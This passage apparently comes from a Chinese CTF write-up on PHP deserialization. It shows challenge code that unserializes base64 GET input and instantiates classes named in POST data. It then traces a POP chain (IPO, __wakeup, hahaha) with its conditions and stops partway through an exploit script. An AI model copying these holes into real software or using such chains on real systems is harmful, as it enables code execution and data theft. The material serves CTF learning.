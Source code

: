 ```php

​    if($this->headmaster == 'ong'){

​      echo "Pretty Good ! Ctfer!\n";

​      echo new $_POST['a']($_POST['b']);

​    }

  }

  public function __wakeup(){

​    if($this->department->hahaha()) {

​      $this->IPO();

​    }

  }

}

if(isset($_GET['d'])){

  unserialize(base64_decode($_GET['d']));

}

?>
```

审计代码，发现可以利用school中的IPO方法来读取flag，写出链子：IPO()<-wakeup()<-hahaha()

需满足的条件有：

1）$this->department->hahaha()为真

2）$this->name != 'one class' or $this->leader->name != 'ing' or $this->leader->rank !='department'为假

3）$this->headmaster == 'ong'为真

```php
exp：

<?php

class teacher{

  public $name='ing';

  public $rank='department';

}

class classroom{

  public $name='one class';

  public $leader;

}

class school{

```
